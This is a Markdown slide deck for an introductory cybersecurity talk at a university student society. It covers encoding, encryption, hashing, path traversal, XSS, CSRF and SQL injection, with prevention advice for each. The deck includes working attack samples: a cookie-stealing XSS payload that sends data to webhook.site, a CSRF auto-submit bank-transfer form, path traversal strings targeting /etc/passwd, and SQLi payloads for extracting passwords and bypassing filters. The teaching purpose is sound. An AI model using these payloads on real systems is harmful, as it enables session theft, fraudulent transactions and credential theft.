

<script type="module">
import mermaid from 'https://cdn.jsdelivr.net/npm/mermaid@11.8.1/dist/mermaid.esm.min.mjs';

mermaid.initialize({ startOnLoad: false, theme: 'base', themeVariables:{primaryColor: "#40e0d0", secondaryColor: "#f5f5f5"} });
const render = async function () {
  const mermaidEls = document.querySelectorAll('pre.mermaid');

  for (const el of mermaidEls) {
    const { svg } = await mermaid.render('mmd', el.textContent);

    const img = document.createElement('img');
    img.setAttribute('src', `data:image/svg+xml;base64,${btoa(unescape(encodeURIComponent(svg)))}`);
    img.setAttribute('class', el.getAttribute('class'));
    img.setAttribute('style', el.getAttribute('style') || '');

    el.parentNode.replaceChild(img, el);
  }
};
window.addEventListener('load', render);
window.addEventListener('vscode.markdown.updateContent', render);
</script>

# Cybersecurity 101

## Information Systems Students' Society (HKUST)

**Speaker:** Ian Lau
**Date:** 10/7/2025
**Duration:** 1 hour

---

# About Me

## Hi, I'm Ian!

**Vice President**, Information Systems Students' Society (HKUST)
Year 3, BBA in Information Systems

**Leader** of Firebird CTF Team, **Tech Lead** of Google Developer Groups on Campus (HKUST)
Interned at **PwC** 📜 (Cyber), **Hospital Authority** 🏥 (Infra), and **Gamenoodlesoup** 🎮 (Dev)
Interested in **Cloud** ☁️ and **Web** 🌐 technologies.

**LinkedIn:** [linkedin.com/in/ianlaulau](https://linkedin.com/in/ianlaulau)
**Discord:** [dc.ianl.au](https://dc.ianl.au) ([@colaian](https://https://discord.com/channels/@me/216127021028212737))

---

# Disclaimer

Please note that **all attacks** described in the slides are for **educational purposes** only, and would be **ILLEGAL** if attempted on machines that you do not have **explicit permission** to test and attack. The University, speaker, and the Information Systems Students' Society assume **no responsibility** for any actions you perform.

---

# What is Cybersecurity?

**Cybersecurity** is the practice of protecting systems, networks, and programs from digital attacks and unauthorized access.

## The Foundational CIA Triad

- **Confidentiality:** Ensuring information is accessible only to authorized users
- **Integrity:** Maintaining data accuracy and preventing unauthorized modification
- **Availability:** Ensuring systems and data are accessible when needed

---

## Keywords

### Vulnerability

A **weakness or flaw** in a **system, application, or network**.
_Think of it as an "unlocked window" in a secure building._

### Exploit

The **method or code** used to **take advantage of a vulnerability**.
_It's the actual technique or tool that "opens the unlocked window."_

### Payload

The **malicious code** that gets **executed after a successful exploit**.
_It's what the attacker does once they're "inside the building."_

---

## Cybersecurity Roles

### 🔴 Red Team (Offensive Security) <-

Simulate _real-world attacks_ to find _vulnerabilities_
e.g. Penetration Tester (Pentester)

### 🔵 Blue Team (Defensive Security)

_Protect & monitor_ systems against _attacks_
e.g. Security Analyst, Incident Responder

### 🎯 Purple Team

A mix of both

---

## Hats?

### ⚪ White Hat <-

**"The Good Guys"** - Ethical hackers who help improve security

- Work with permission and within legal boundaries
- Report vulnerabilities responsibly
- Help organizations strengthen their defenses

### ⚫ Black Hat

**"The Bad Guys"** - Malicious hackers who break the law

- Unauthorized access
- Steal data, cause damage, or profit illegally

---

## The Cyber Kill Chain®

A framework developed by **Lockheed Martin** describing the **7 stages** of a cyberattack, to help organizations **detect**, **prevent**, and **respond** to attacks at each phase..

1. **Reconnaissance** - Gathering information about the target
2. **Weaponization** - Creating malicious payload/exploit
3. **Delivery** - Transmitting the weapon to the target
4. **Exploitation** - Triggering the vulnerability
5. **Installation** - Installing malware/backdoor
6. **Command & Control (C2)** - Establishing remote access
7. **Actions on Objectives** - Achieving the attack goals

---

# Agenda

1. 🔐 **Cryptography**

2. 🌐 **Web Attacks**

- **Path Traversal**
- Cross-Site Scripting (**XSS**)
- Cross-Site Resource Forgery (**CSRF**)

3. 💉 **SQL Injection**

---

# Part 1: Cryptography

## The Foundation of Security

---

## What is Cryptography?

**Cryptography** is the practice of securing information by transforming it into an unreadable format.

### Key Concepts

- **Plaintext:** Original readable data
- **Ciphertext:** Encrypted/encoded data
- **Key:** Secret used for encryption/decryption
- **Algorithm:** Mathematical process for transformation

---

## Cryptography Categories

1. **Encoding:** Reversible transformation for compatibility (not secure)

<pre class="mermaid" style="height: 3.7rem;">
graph LR
  A[Plaintext Hello World] -->|Encoding| B[Ciphertext 3nc0d3d_d474]
  B -->|Decoding| C[Plaintext Hello World]
</pre>

2. **Encryption:** Secure transformation requiring a key

<pre class="mermaid" style="height: 3.7rem;">
graph LR
  A[Plaintext Hello World] -->|Encryption + Key| B[Ciphertext 3ncryp73d_d474]
  B -->|Decryption + Key| C[Plaintext Hello World]
</pre>

3. **Hashing:** One-way transformation to a fixed-length string

<pre class="mermaid" style="height: 3.7rem;">
graph LR
  A[Plaintext Hello World] -->|Hashing| B[Ciphertext a4fe0b]
</pre>

---

## Common Encoding Schemes

<div style="display: grid; grid-template-columns: repeat(2, 1fr); gap: 4rem;">
<div>

### Binary Encoding

- Base-2 representation
- Only uses 0 and 1

**Example:**

```
Plaintext: "A"
ASCII: 65
Binary: 01000001
```

</div>
<div>

### Hexadecimal Encoding

- Represents binary data in base-16
- Uses 0-9 and A-F

**Example:**

```
Plaintext: "Hi"
ASCII: 72 105
Hex: 4869
```

</div>
</div>

---

## Common Encoding Schemes

<div style="display: grid; grid-template-columns: repeat(2, 1fr); gap: 4rem;">
<div>

### Base64 Encoding

- Converts binary data to ASCII text
- Uses 64 characters: A-Z, a-z, 0-9, +, /
- Padded with `=` characters<br/>_(output length always divisible by 4)_

**Example:**

```
Plaintext: "Hello World"
Base64: "SGVsbG8gV29ybGQ=" (16 char)
```

</div>
<div>

### URL Encoding

- Encodes special characters for URLs
- Uses `%` followed by hex values
- Common in URL search parameters

**Example:**

```
Original: "Hello World!"
URL Encoded: "Hello%20World%21"
```

</div>
</div>

---

### Warm-up Question

_"Sir, we have protected our users database. Please review."_ Is this secure?

| ID  | Username | Password     | Role          |
| --- | -------- | ------------ | ------------- |
| 1   | admin    | YWRtaW4xMjM= | administrator |
| 2   | alice    | cGFzc3dvcmQ= | user          |
| 3   | bob      | MTIzNDU2     | user          |
| 4   | charlie  | cXdlcnR5     | user          |
| 5   | dave     | bGV0bWVpbg== | user          |
| 6   | eve      | aGFja2VyMTIz | user          |
| 7   | frank    | c2VjcmV0     | user          |
| 8   | grace    | d2VsY29tZQ== | user          |

---

## Common Misconception

_"Base64 is encryption"_ ❌
Base64 is encoding - anyone can decode it!

## Let's decode!

**JavaScript** in your browser DevTools (usually <kbd>F12</kbd>)
`btoa("<any string>")`: Encode Binary (string) into ASCII (base64)
`atob("<base64 ciphertext>")`: Decode ASCII (base64) into Binary (string)

or use **CyberChef:** https://gchq.github.io/CyberChef/

---

## Symmetric Encryption

**Same key** used for both encryption and decryption

<pre class="mermaid" style="height: 3.7rem;">
graph LR
  A[Plaintext Hello World] -->|Symmetric Key| B[Ciphertext 3ncryp73d_d474]
  B -->|Symmetric Key| C[Plaintext Hello World]
</pre>

### Use Cases

File encryption, database encryption, VPNs

### Common Algorithms

- **AES (Advanced Encryption Standard)** - Most common
- **DES (Data Encryption Standard)** - short 56-bit key, easy to brute force
- **3DES** - vulnerable to block collision attacks for encrypting large amounts of data

---

## Classical Examples of Symmetric Encryption

<div style="display: grid; grid-template-columns: repeat(2, 1fr); gap: 4rem;">
<div>

### Caesar Cipher

- **Simple substitution cipher**
- Each letter shifted by fixed number of positions
- Commonly appears as ROT13

```
Plaintext:  HELLO WORLD
Ciphertext: KHOOR ZRUOG (shift by 3)
```

</div>
<div>

### Vigenère Cipher

- **Polyalphabetic substitution cipher**
- Uses a keyword to determine shift for each letter
- More secure than Caesar cipher

```
Plaintext:  HELLO WORLD
Keyword:    CYBER SECCY (repeat CYBERSEC)
Ciphertext: JCMPF OSTNB
```

</div>
</div>

You can use [QuipQiup](https://quipqiup.com) to help you solve **substitution ciphers** with **frequency analysis**.

---

## Asymmetric Encryption

**Two different keys:** Public key (shareable) and Private key (secret)

### Use Cases

1. **Encryption & Decryption:** HTTPS requests, Email (PGP/S-MIME)

<pre class="mermaid" style="height: 3.7rem;">
graph LR
  A[Plaintext Hello World] -->|Public Key| B[Ciphertext 3ncryp73d_d474]
  B -->|Private Key| C[Plaintext Hello World]
</pre>

2. **Digital Signatures:** Publishing apps, legal documents, e-Cheques

<pre class="mermaid" style="height: 3.7rem;">
graph LR
  A[Plaintext Hello World] -->|Private Key| B[Ciphertext d1g1t41_s1gn4tur3]
  B -->|Public Key| C[Verified!]
</pre>

---

## Asymmetric Encryption (Cont'd)

### Common Algorithms

- **RSA (Rivest–Shamir–Adleman)** - Most common
- **ECC (Elliptic Curve Cryptography)** - More efficient
- **DSA (Digital Signature Algorithm)** - Digital signatures

---

## Hash Functions

**One-way functions** that produce fixed-size output

### Main Properties

1. **Deterministic:** Same input = same output
2. **Uniformity:** Distributed normally across output space
3. **Avalanche Effect:** Small input change produces drastically different output
4. **Irreversible:** Cannot get original input from hash
5. **Collision resistant:** Hard to find two inputs with same hash

---

## Hash Functions (Cont'd)

### Common Hash Functions for Data Integrity

- **SHA-512/256** - Secure, fast & efficient, widely used
- **SHA-1**, **MD5** - Deprecated (vulnerable to collisions)

### Common Hash Functions for Passwords

- **Argon2** - Modern password hashing (Password Hashing Competition winner)
- **bcrypt**, **scrypt**, **PBKDF2**

---

## Standard Password Hash Output Prefixes

Sometimes password hashes may appear as `$<format>$<rounds>$<salt>$<hash>`

| Hash Type      | Format Prefix                                           |
| -------------- | ------------------------------------------------------- |
| MD5 (Unix)     | `$1$`                                                   |
| bcrypt         | `$2$`, `$2a$` (sha512), `$2b$` (sha256), `$2x$`, `$2y$` |
| SHA-256 (Unix) | `$5$`                                                   |
| SHA-512 (Unix) | `$6$`                                                   |
| scrypt         | `$7$`                                                   |
| PBKDF2         | `$pbkdf2$`                                              |
| Argon2         | `$argon2i$`, `$argon2d$`, `$argon2id$`                  |

More at **HashCat website:** https://hashcat.net/wiki/doku.php?id=example_hashes

---

## Rainbow Table 🌈

Pre-computed lookup tables containing plaintext passwords and their corresponding hash values

### Example

Let's crack some passwords with a rainbow table website [crackstation.net](https://crackstation.net)!

```
guest: da39a3ee5e6b4b0d3255bfef95601890afd80709
user1: 5d41402abc4b2a76b9719d911017c592
admin: $2b$12$LQv3c1yqBWVHxkd0LHAkCOYz6TtxMQJqhN8/LewdBPj.QK8/T5KpC
```

---

# Part 2: Web Attacks

## Exploiting the Digital Frontier

---

## OWASP Top 10 (2021)

Open Worldwide Application Security Project
[owasp.org/www-project-top-ten](https://owasp.org/www-project-top-ten)

<div style="display: flex; gap: 4rem;">
<div>

1. **Broken Access Control**
2. **Cryptographic Failures**
3. **Injection** (Including SQL Injection)
4. **Insecure Design**
5. **Security Misconfiguration**

</div>
<div>

6. **Vulnerable Components**
7. **Identification & Authentication Failures**
8. **Software & Data Integrity Failures**
9. **Security Logging & Monitoring Failures**
10. **Server-Side Request Forgery (SSRF)**

</div>
</div>

---

## Path Traversal (a.k.a. Directory Traversal)

Access files outside the web root directory

### Basic Technique

```bash
# .. references parent directory, / is the file separator of Linux
../../../etc/passwd

# .. references parent directory, \ is the file separator for Windows
..\..\..\..\Windows\System32\drivers\etc\hosts
```

### Prevention

Input validation, Whitelist allowed files, Proper access controls

---

## What can JavaScript primarily do in browsers?

1. Manipulate the **Document Object Model (DOM)** _(page structure)_
2. Detect/Simulate **User Interactions**
3. Make **Network Requests**
4. Manipulate **Cookies & Local Storage** _(data stored in your browser by a site)_
5. Access specific **Hardware** when authorized by user
   _(e.g. camera, mic, file system, GPS, sensors)_

---

## Cross-Site Scripting (XSS)

Manipulating a website to make another user's browser execute malicious JavaScript

### Main Types

1. **Reflected XSS**: Script from current HTTP request
2. **Stored XSS**: Script stored on target server
3. **DOM-based XSS**: Vulnerability in client-side JavaScript

---

#### 1. Reflected XSS Example

<pre class="mermaid" style="height: 35rem;">
sequenceDiagram
  title Vulnerable display of search query (server-side)
  participant Attacker
  participant User as Victim
  participant Server as Vulnerable Server

  Attacker->>User: 1. Send malicious link with XSS payload
  Note over Attacker,User: Example: https://site.com/search?q=&lt;script&gt;alert('XSS')&lt;/script&gt;

User->>Server: 2. Click link, browser requests page with payload
Server->>Server: 3. Process request, include payload in response
Note over Server: No input validation/encoding

Server->>User: 4. Return page with malicious script embedded
Note over User: Browser executes malicious JavaScript
User->>Attacker: 5. Script sends stolen data to attacker

</pre>

---

#### 2. Stored XSS Example

<pre class="mermaid" style="height: 35rem;">
sequenceDiagram
  title Vulnerable display of comment (server side)
  participant Attacker
  participant Server as Vulnerable Server
  participant DB as Database
  participant User as Victim

  Attacker->>Server: 1. Submit comment with malicious script via form
  Note over Attacker,Server: Example: #lt;script#gt;alert('XSS')#lt;/script#gt;

  Server->>DB: 2. Store malicious script without sanitization
  Note over Server,DB: No input validation/encoding

  User->>Server: 3. Request page containing stored content
  Server->>DB: 4. Retrieve stored content including malicious script
  DB->>Server: 5. Return data with embedded script
  Server->>User: 6. Serve page with malicious script
  Note over User: Browser executes malicious JavaScript
  User->>Attacker: 7. Script sends stolen data to attacker

</pre>

---

#### 3. DOM-based XSS Example

<pre class="mermaid" style="height: 35rem;">
sequenceDiagram
  title Vulnerable display of hash property (client-side)
  participant Attacker
  participant User as Victim
  participant Server as Web Server
  participant Browser as User's Browser

  Attacker->>User: 1. Send malicious link with payload in URL fragment
  Note over Attacker,User: Example: https://site.com/page#num;#lt;script#gt;alert('XSS')#lt;/script#gt;

User->>Server: 2. Request page (fragment not sent to server)
Server->>Browser: 3. Return legitimate page with vulnerable JavaScript
Note over Server,Browser: Server code is not vulnerable

Browser->>Browser: 4. Execute vulnerable client-side JavaScript
Note over Browser: JavaScript reads URL fragment and inserts into DOM
Browser->>Browser: 5. Malicious script executes in browser
Browser->>Attacker: 6. Script sends stolen data to attacker

</pre>

---

### Common XSS Injection Points

- Form inputs
- URL parameters
- HTTP headers
- File uploads
- Comment sections

---

### XSS Payload Examples

#### Basic

```javascript
<script>alert('XSS')</script>

javascript:alert('XSS')
"><script>alert('XSS')</script>
```

#### Advanced

Collect victim's data in a request bin (e.g. [webhook.site](https://webhook.site))

```javascript
<script>document.location='https://webhook.site/xxxx?cookie='+document.cookie</script>
```

---

### XSS Prevention

If you intend to display user inputs as plaintext, encode special characters into HTML character entities (e.g. `<` becomes `&lt;` (less than)).

When user inputs have to be displayed in the DOM (e.g. custom HTML), use something like [DOMPurify](https://github.com/cure53/DOMPurify) to sanitize away XSS content.

---

## Cross-Site Request Forgery (CSRF)

Forces authenticated users to perform unwanted actions

### How CSRF Works

1. User logs into a legitimate website
2. User visits malicious website while still logged in
3. Malicious site sends forged request to the legitimate website
4. The legitimate website processes request as legitimate (user is authenticated)

---

### CSRF Attack Example

An attacker puts an auto-submit form that makes the victim's browser send a request to the bank to transfer them money.

```html
<form action="https://bank.com/transfer" method="POST" style="display:none">
	<input name="to" value="attacker_account" />
	<input name="amount" value="10000" />
	<input type="submit" value="Submit" />
</form>
<script>
	document.forms[0].submit();
</script>
```

---

<pre class="mermaid" style="height: 40rem">
sequenceDiagram
    title Unauthorized Bank Transaction Example
    participant Attacker as Malicious Site
    participant User as Victim
    participant Bank as Legitimate Bank

    User->>Bank: 1. Login to bank.com
    Bank->>User: 2. Set session cookie
    Note over User,Bank: User is now authenticated

    User->>Attacker: 3. Visit malicious website
    Attacker->>User: 4. Serve malicious HTML with hidden form
    Note over User,Attacker: Form automatically submits

    User->>Bank: 5. Browser sends forged request (with session cookie)
    Bank->>Bank: 6. Process request as legitimate (user appears authenticated)
    Bank->>User: 7. Transfer completed
    Note over User,Bank: Money transferred without user consent
</pre>

---

### CSRF Prevention

#### 1. CSRF Tokens

Generate unique, unpredictable tokens for each session/request on server side

- **Implementation**: Include token in forms and validate on server-side
- **Security**: Tokens should be cryptographically strong and tied to user sessions
- **Example**: `<input type="hidden" name="csrf_token" value="abc123xyz789">`

#### 2. SameSite Cookies

Only send the cookie when request is made from the same site

---

## Web Application Security Testing Tool

**Burp Suite** [portswigger.net/burp](https://portswigger.net/burp)
Intercept, modify & automate browser requests

---

# Part 3: SQL Injection

## Exploiting Vulnerable Database Queries

---

## SQL Injection (SQLi)

Injection of malicious SQL code into application queries

### How SQLi Works

1. Application accepts malicious user input
2. Input is directly inserted into SQL query
3. Database executes unintended queries

---

## SQL Injection Example

### Vulnerable Code (PHP)

```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
```

### Attacker Input

```sql
admin' OR '1'='1' --
```

### Resulting Query

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' --'
```

---

<pre class="mermaid" style="height: 40rem;">
sequenceDiagram
  participant User
  participant App as Web Application
  participant DB as Database

  User->>App: 1. Submit form with malicious input
  Note over User,App: Input: admin' OR '1'='1' --

  App->>App: 2. Build SQL query (vulnerable)
  Note over App: Query: SELECT * FROM users WHERE username = 'admin' OR '1'='1' --'

  App->>DB: 3. Execute malicious query
  DB->>App: 4. Return unauthorized data
  Note over DB,App: All user records returned due to OR '1'='1'

  App->>User: 5. Display sensitive information
  Note over User: Attacker gains unauthorized access
</pre>

---

## Main Types of SQLi

### 1. Union-Based

- Uses UNION operator to extract data by appending rows to result

### 2. Error-Based

- Information leaked through errors messages

### 3. Boolean-Based (Blind)

- Extract data bit by bit from application that responds differently to TRUE/FALSE

### 4. Time-Based (Blind)

- Infer data from response timing by using delay/sleep functions

---

## SQLi Steps

1. **Discovering SQLi**
   Test with simple payloads

```sql
'
"
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' /*
```

2. **Gathering Environment Info**

```sql
' UNION SELECT version() --
' UNION SELECT database() --
' UNION SELECT user() --
```

---

3. **Enumerating Schemas**

```sql
' UNION SELECT table_name FROM information_schema.tables --
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```

4. **Extracting Data**

```sql
' UNION SELECT username,password FROM users --
```

---

## Bypassing Filters

```sql
' UnIoN SeLeCt * FrOm users -- Variating cases
```

```sql
' UNION/**/SELECT/**/password/**/FROM/**/users -- Comments
```

```sql
' %55%4e%49%4f%4e SELECT password FROM users -- Encoding
```

```sql
' UNION SELSELECTECT * FROM users -- Avoid input stripping
```

```sql
' || (SELECT password FROM users LIMIT 1) -- Alternative keywords (e.g. || instead of UNION)
```

---

## Boolean-Based SQLi Example

Extract the first character of admin password bit by bit using ASCII binary search:

```sql
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>64 --
```

**Loads normally:** first character ASCII > 64, **Error/different response:** ≤ 64

```sql
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>96 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>112 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>104 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>100 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>98 --
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>97 --
```

If we find out the ASCII value is 97, the first character is 'a'.

---

## Time-Based SQLi Example

Similarly, use the SLEEP function to to extract based on whether

```sql
' AND IF(ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))=97,SLEEP(5),0) --
```

---

## SQL Injection Tool

**sqlmap** [sqlmap.org](https://sqlmap.org)
Automatic SQL Injection & Takeover Tool

---

## SQL Injection Prevention

### 1. Parameterized Queries (Prepared Statements)

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

### 2. Least Privilege Principle

- Create a database user with minimal permissions
- Separate database/schemas for different functions

### 3. Error Handling

- Display generic error messages instead of real errors to users

---

## Key Takeaways

### 🔐 Cryptography

- **Encoding ≠ Encryption**
  Always use proper **encryption** for sensitive data
- **User passwords** should be hashed before storage
  Reduce **immediate** impact if password hashes are leaked

---

## Key Takeaways (Cont'd)

### 🌐 Web Attacks

- Input validation is crucial for preventing **XSS** and **Directory Traversal**
- **CSRF tokens** can prevent attackers from acting on behalf of your users

### 💉 SQL Injection

- **Parameterized queries** are the best defense
- **Error messages** can leak sensitive information
- **Least privilege** limits damage from successful attacks

---

## Next Steps

Consider learning more about cybersecurity **hands-on** and preparing your **cybersecurity career** through competitions (or just try out challenges)!

### What are CTFs?

**CTF (Capture The Flag)** competitions are cybersecurity challenges that simulate real-world scenarios, commonly covering _cryptography_, _web exploitation_, _reverse engineering_, _forensics_, _binary exploitation_, _OSINT_, and _miscellaneous_. Find CTFs at [ctftime.org/ctfs](https://ctftime.org/ctfs).

### Join HKUST's Firebird CTF Team!

The team organises and teaches HKUST's industry famous COMP2633, 3633, and 4633 Competitive Programming in Cybersecurity course series. Learn more at our Discord [discord.gg/YkxQZCaa33](https://discord.gg/YkxQZCaa33). We will treat you well UwU.

---

## 🛣️ Cybersecurity Journey

- **[Study Roadmap](https://roadmap.sh/cyber-security)**
- **[Career Roadmap](https://coursera.org/resources/cybersecurity-finding-your-career-path)**

## 🔧 Practice Platforms

- **[PicoCTF](https://picoctf.com)** - Beginner-friendly challenges
- **[OverTheWire](https://overthewire.org)** - Wargames for all levels
- **[HackTheBox](https://www.hackthebox.com)** & **[TryHackMe](https://tryhackme.com)** (paid) - Guided learning paths

---

## Information Systems Students' Society 2025-26 Exco

**Expression of Interest Form**



[forms.gle/iEyyBfmUMWKhx3j16](https://forms.gle/iEyyBfmUMWKhx3j16)

---

# Questions?

---

# Thanks for joining!

🔒 **Happy Hacking!** 🔒

---

Copyright © 2025 Ian Lau.
Licensed under [CC BY-NC-ND 4.0](https://creativecommons.org/licenses/by-nc-nd/4.0).
